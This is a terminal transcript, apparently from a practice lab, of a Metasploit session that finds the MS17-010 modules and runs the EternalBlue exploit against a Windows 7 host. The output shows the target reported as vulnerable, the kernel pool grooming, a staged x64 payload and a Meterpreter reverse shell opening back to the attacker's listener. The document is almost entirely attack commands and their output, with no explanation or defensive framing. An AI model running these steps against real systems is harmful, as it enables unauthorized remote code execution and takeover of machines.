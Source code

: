 ~~~
$ msfconsole -q
msf5 exploit(windows/smb/smb_doublepulsar_rce) > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


msf5 exploit(windows/smb/smb_doublepulsar_rce) > use 2
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.80.255
rhost => 10.10.80.255
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started HTTPS reverse handler on https://10.8.50.72:8443
[*] 10.10.80.255:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.80.255:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.80.255:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.80.255:445 - Connecting to target for exploitation.
[+] 10.10.80.255:445 - Connection established for exploitation.
[+] 10.10.80.255:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.80.255:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.80.255:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.80.255:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.80.255:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.80.255:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.80.255:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.80.255:445 - Sending all but last fragment of exploit packet
[*] 10.10.80.255:445 - Starting non-paged pool grooming
[+] 10.10.80.255:445 - Sending SMBv2 buffers
[+] 10.10.80.255:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.80.255:445 - Sending final SMBv2 buffers.
[*] 10.10.80.255:445 - Sending last fragment of exploit packet!
[*] 10.10.80.255:445 - Receiving response from exploit packet
[+] 10.10.80.255:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.80.255:445 - Sending egg to corrupted connection.
[*] 10.10.80.255:445 - Triggering free of corrupted buffer.
[*] https://10.8.50.72:8443 handling request from 10.10.80.255; (UUID: edmt3bfs) Staging x64 payload (202329 bytes) ...
[*] Meterpreter session 1 opened (10.8.50.72:8443 -> 10.10.80.255:49193) at 2020-06-15 20:38:13 +0200

[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.80.255:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
~~~